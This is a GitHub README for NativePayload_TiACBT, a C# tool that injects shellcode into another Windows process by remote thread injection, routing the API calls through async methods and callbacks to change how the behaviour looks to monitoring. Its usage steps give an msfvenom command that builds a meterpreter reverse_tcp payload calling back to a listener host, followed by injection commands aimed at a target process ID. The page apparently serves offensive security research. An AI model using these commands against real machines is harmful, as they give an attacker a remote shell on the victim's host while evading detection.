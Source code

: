 # NativePayload_TiACBT
NativePayload_TiACBT  (Remote Thread Injection + C# Async Method + CallBack Functions Technique)<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FDamonMohammadbgher%2FNativePayload_TiACBT"/></a></p>
-------------
Note: These C# Codes Tested by .Net Framework 3.5 or 4.0 & 4.5 only ;) & i will Publish Article for these codes soon , in these code we have Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique CBT, in these Codes We have "CreateRemoteThread or NtCreateThreadEx" BUT the goal is Changing Code Behaviour for Calling API Finctions (Remote Thread Injection only), as you can see in these Pictures With API Monitor tool you can see what happened step by step. (i will publish article about this soon...)  

--------------------------------------------
C# Codes: "New C# codes for Callback Functions will publish here soon..."
```diff
+    1. NativePayload_TiACBT.cs
+    2. NativePayload_TiACBT2.cs
```

--------------------------------------------

1. NativePayload_TiACBT.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA + EnumSystemLocalesA Native APIs)

 Note: NativePayload_TiACBT will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,CreateRemoteThread (all methods called via Async C# Method + Callback Functions ...)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT.exe [mode 1,2] [TPID] [PAYLOAD]
    example: NativePayload_TiACBT.exe 1 5930 "fc,48,00,87,00,...."
    example: NativePayload_TiACBT.exe 2 5930 "fc,48,00,87,00,...."
    

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT.png)

 -----------------------------------------------------------    
2. NativePayload_TiACBT2.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA Native API)

 Note: NativePayload_TiACBT2 will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,NtCreateThreadEx
 
 Note: in this code Method1 (OpenProcess) will call Method2 (VirtualAllocEx) & Method2 Will Call Method3 (WriteProcessMemory) & Method3 Will call Method4 (NtCreateThreadEx) and all methods called via Async C# Method + Callback Functions ...

 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT2.exe   [TPID] [PAYLOAD]
    example: NativePayload_TiACBT2.exe  4386 "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT2.png)

 --------------------------------------------    
